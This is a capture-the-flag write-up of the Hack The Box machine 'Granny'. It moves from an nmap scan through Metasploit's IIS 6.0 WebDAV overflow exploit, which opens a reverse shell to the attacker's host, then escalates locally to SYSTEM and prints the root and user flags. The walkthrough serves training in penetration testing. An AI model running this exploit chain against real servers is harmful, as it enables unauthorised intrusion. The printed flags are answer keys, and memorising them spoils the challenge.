

#### Granny

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [WebDAV Exploitation](#webdav-exploitation)

###### Attacker Info

```sh
root@kali:~/granny# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.63  netmask 255.255.255.0  broadcast 10.0.0.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        inet6 2601:644:8500:d9da::757d  prefixlen 128  scopeid 0x0<global>
        inet6 2601:644:8500:d9da:20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x0<global>
        inet6 2601:644:8500:d9da:f515:bd81:8c02:e410  prefixlen 64  scopeid 0x0<global>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 148  bytes 20546 (20.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 137  bytes 20286 (19.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 60  bytes 21177 (20.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 60  bytes 21177 (20.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.11  netmask 255.255.254.0  destination 10.10.14.11
        inet6 fe80::36fe:f3d9:869:d30c  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1009  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1  bytes 48 (48.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/granny#
```

###### Nmap Scan

```sh
root@kali:~/granny# nmap -sV -sC -oA granny.nmap 10.10.10.15

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-15 14:56 EST
Nmap scan report for 10.10.10.15
Host is up (0.21s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   WebDAV type: Unkown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Date: Thu, 15 Feb 2018 19:57:08 GMT
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.24 seconds
root@kali:~/granny#
```



###### WebDAV Exploitation

```sh
root@kali:~/granny# searchsploit IIS 6.0

-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Microsoft IIS 4.0/5.0/6.0 - Internal IP Address/Internal Network Name Disclosure                                                                                    | exploits/windows/remote/21057.txt
Microsoft IIS 5.0/6.0 FTP Server (Windows 2000) - Remote Stack Overflow                                                                                             | exploits/windows/remote/9541.pl
Microsoft IIS 5.0/6.0 FTP Server - Stack Exhaustion Denial of Service                                                                                               | exploits/windows/dos/9587.txt
Microsoft IIS 6.0 - '/AUX / '.aspx' Remote Denial of Service                                                                                                        | exploits/windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow Stack Exhaustion (Denial of Service) (MS10-065)                                                                              | exploits/windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                                                                            | exploits/windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                                                                                                         | exploits/windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                                                                         | exploits/windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (PHP)                                                                                                       | exploits/windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                                                                     | exploits/windows/remote/8754.patch
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                                                                            | exploits/windows/remote/19033.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Shellcodes: No Result
root@kali:~/granny#
```

```sh
root@kali:~/granny# msfconsole


MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
        https://metasploit.com


       =[ metasploit v4.16.32-dev                         ]
+ -- --=[ 1726 exploits - 987 auxiliary - 300 post        ]
+ -- --=[ 507 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > search webdav
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                                      Disclosure Date  Rank       Description
   ----                                                      ---------------  ----       -----------
   auxiliary/scanner/http/dir_webdav_unicode_bypass                           normal     MS09-020 IIS6 WebDAV Unicode Auth Bypass Directory Scanner
   auxiliary/scanner/http/ms09_020_webdav_unicode_bypass                      normal     MS09-020 IIS6 WebDAV Unicode Authentication Bypass
   auxiliary/scanner/http/webdav_internal_ip                                  normal     HTTP WebDAV Internal IP Scanner
   auxiliary/scanner/http/webdav_scanner                                      normal     HTTP WebDAV Scanner
   auxiliary/scanner/http/webdav_website_content                              normal     HTTP WebDAV Website Content Scanner
   exploit/multi/http/sun_jsws_dav_options                   2010-01-20       great      Sun Java System Web Server WebDAV OPTIONS Buffer Overflow
   exploit/multi/svn/svnserve_date                           2004-05-19       average    Subversion Date Svnserve
   exploit/osx/browser/safari_file_policy                    2011-10-12       normal     Apple Safari file:// Arbitrary Code Execution
   exploit/windows/browser/java_ws_arginject_altjvm          2010-04-09       excellent  Sun Java Web Start Plugin Command Line Argument Injection
   exploit/windows/browser/java_ws_double_quote              2012-10-16       excellent  Sun Java Web Start Double Quote Injection
   exploit/windows/browser/java_ws_vmargs                    2012-02-14       excellent  Sun Java Web Start Plugin Command Line Argument Injection
   exploit/windows/browser/keyhelp_launchtripane_exec        2012-06-26       excellent  KeyHelp ActiveX LaunchTriPane Remote Code Execution Vulnerability
   exploit/windows/browser/ms07_017_ani_loadimage_chunksize  2007-03-28       great      Windows ANI LoadAniIcon() Chunk Size Stack Buffer Overflow (HTTP)
   exploit/windows/browser/ms10_022_ie_vbscript_winhlp32     2010-02-26       great      MS10-022 Microsoft Internet Explorer Winhlp32.exe MsgBox Code Execution
   exploit/windows/browser/ms10_042_helpctr_xss_cmd_exec     2010-06-09       excellent  Microsoft Help Center XSS and Command Execution
   exploit/windows/browser/ms10_046_shortcut_icon_dllloader  2010-07-16       excellent  Microsoft Windows Shell LNK Code Execution
   exploit/windows/browser/oracle_webcenter_checkoutandopen  2013-04-16       excellent  Oracle WebCenter Content CheckOutAndOpen.dll ActiveX Remote Code Execution
   exploit/windows/browser/ubisoft_uplay_cmd_exec            2012-07-29       normal     Ubisoft uplay 2.0.3 ActiveX Control Arbitrary Code Execution
   exploit/windows/browser/webdav_dll_hijacker               2010-08-18       manual     WebDAV Application DLL Hijacker
   exploit/windows/http/sap_host_control_cmd_exec            2012-08-14       average    SAP NetWeaver HostControl Command Injection
   exploit/windows/http/xampp_webdav_upload_php              2012-01-14       excellent  XAMPP WebDAV PHP Upload
   exploit/windows/iis/iis_webdav_scstoragepathfromurl       2017-03-26       manual      Microsoft IIS WebDav ScStoragePathFromUrl Overflow
   exploit/windows/iis/iis_webdav_upload_asp                 1994-01-01       excellent  Microsoft IIS WebDAV Write Access Code Execution
   exploit/windows/iis/ms03_007_ntdll_webdav                 2003-05-30       great      MS03-007 Microsoft IIS 5.0 WebDAV ntdll.dll Path Overflow
   exploit/windows/local/ms16_016_webdav                     2016-02-09       excellent  MS16-016 mrxdav.sys WebDav Local Privilege Escalation
   exploit/windows/misc/ibm_director_cim_dllinject           2009-03-10       excellent  IBM System Director Agent DLL Injection
   exploit/windows/misc/vmhgfs_webdav_dll_sideload           2016-08-05       normal     DLL Side Loading Vulnerability in VMware Host Guest Client Redirector
   exploit/windows/scada/ge_proficy_cimplicity_gefebt        2014-01-23       excellent  GE Proficy CIMPLICITY gefebt.exe Remote Code Execution
   exploit/windows/ssl/ms04_011_pct                          2004-04-13       average    MS04-011 Microsoft Private Communications Transport Overflow
   post/windows/escalate/droplnk                                              normal     Windows Escalate SMB Icon LNK Dropper

msf > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                           yes       The target address
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86


msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOST 10.10.10.15
RHOST => 10.10.10.15
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444
[*] Sending stage (179779 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.11:4444 -> 10.10.10.15:1030) at 2018-02-16 11:53:57 -0500

meterpreter > sysinfo
Computer        : GRANNY
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
meterpreter > background
[*] Backgrounding session 1...
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use post/windows/manage/migrate
msf post(windows/manage/migrate) > show options

Module options (post/windows/manage/migrate):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   KILL     false            no        Kill original process for the session.
   NAME                      no        Name of process to migrate to.
   PID                       no        PID of process to migrate to.
   SESSION                   yes       The session to run this module on.
   SPAWN    true             no        Spawn process to migrate to. If name for process not given notepad.exe is used.

msf post(windows/manage/migrate) > set SESSION 1
SESSION => 1
msf post(windows/manage/migrate) > exploit

[*] Running module against GRANNY
[*] Current server process: rundll32.exe (2300)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2560
[+] Successfully migrated to process 2560
[*] Post module execution completed
msf post(windows/manage/migrate) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on.
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 38 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf post(multi/recon/local_exploit_suggester) > sessions -l 1

Active sessions
===============

  Id  Name  Type                     Information  Connection
  --  ----  ----                     -----------  ----------
  1         meterpreter x86/windows               10.10.14.11:4444 -> 10.10.10.15:1030 (10.10.10.15)

msf post(multi/recon/local_exploit_suggester) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > background
[*] Backgrounding session 1...
msf post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ppr_flatten_rec
msf exploit(windows/local/ppr_flatten_rec) > show options

Module options (exploit/windows/local/ppr_flatten_rec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
   WAIT     10               yes       Number of seconds to wait for exploit to run


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/local/ppr_flatten_rec) > set SESSION 1
SESSION => 1
msf exploit(windows/local/ppr_flatten_rec) > exploit

[*] Started reverse TCP handler on 10.0.0.63:4444
[*] Launching notepad to host the exploit...
[+] Process 2464 launched.
[*] Reflectively injecting the exploit DLL into 2464...
[*] Injecting exploit into 2464 ...
[*] Exploit injected. Injecting payload into 2464...
[*] Payload injected. Executing exploit...
[*] Exploit thread executing (can take a while to run), waiting 10 sec ...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
msf exploit(windows/local/ppr_flatten_rec) > set LHOST tun0
LHOST => tun0
msf exploit(windows/local/ppr_flatten_rec) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444
[*] Launching notepad to host the exploit...
[+] Process 3036 launched.
[*] Reflectively injecting the exploit DLL into 3036...
[*] Injecting exploit into 3036 ...
[*] Exploit injected. Injecting payload into 3036...
[*] Payload injected. Executing exploit...
[*] Exploit thread executing (can take a while to run), waiting 10 sec ...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.11:4444 -> 10.10.10.15:1031) at 2018-02-16 12:02:20 -0500

meterpreter > sysinfo
Computer        : GRANNY
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getpid
Current pid: 3036
meterpreter > shell
Process 3240 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
C:\WINDOWS\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 14 Minutes, 46 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 6 Model 63 Stepping 2 GenuineIntel ~2592 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 791 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,312 MB
Page File: In Use:         158 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.15

C:\WINDOWS\system32\inetsrv>
```

```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9
C:\Documents and Settings\Administrator\Desktop>
```

```
C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e408f8703f67d1
C:\Documents and Settings\Lakis\Desktop>
```
